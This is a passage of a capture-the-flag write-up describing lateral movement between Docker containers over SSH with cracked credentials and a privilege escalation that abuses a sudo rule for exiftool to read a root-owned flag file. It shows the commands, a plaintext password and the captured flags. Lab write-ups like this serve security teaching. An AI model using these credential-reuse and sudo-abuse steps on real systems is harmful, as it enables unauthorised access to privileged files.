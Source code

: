 ## Part 4: Container Pivoting

Using cracked credentials, access was gained to different Docker containers (database_app and backend_app), where additional flags were discovered.

### Accessing the database_app container

```bash
ssh santa@172.29.0.3
cat flag.txt
CEMA{ENV_VARS_REVEAL_MANY_THINGS}
```

There was not much on this machine, maybe the creds work on a different ip too?

### Accessing the backend_app container

```bash
ssh santa@172.30.0.2
cat flag.txt
CEMA{INSIDE_THE_BACKEND}
```

## Part 5: Privilege Escalation and Final Flag

Within the backend_app container, it was found that santa had sudo privileges to run exiftool. This was exploited to read the root's flag file.
Commands and Output

```bash
# Checking sudo privileges
backend_app:~$ sudo -l  
sudo -l
[sudo] password for santa: chocolate

User santa may run the following commands on backend_app:
    (ALL) /usr/local/bin/exiftool
```

### Exploiting exiftool to read root's flag

```bash
sudo /usr/local/bin/exiftool -o - /root/flag.txt
CEMA{KING_OF_GROWTECH}
```

This write-up summarizes the key steps taken to solve the CTF challenge, highlighting the methodologies used, the challenges faced, and how they were overcome. For a comprehensive report, each section can be expanded with more detailed descriptions, screenshots, and reflections on the learning outcomes.
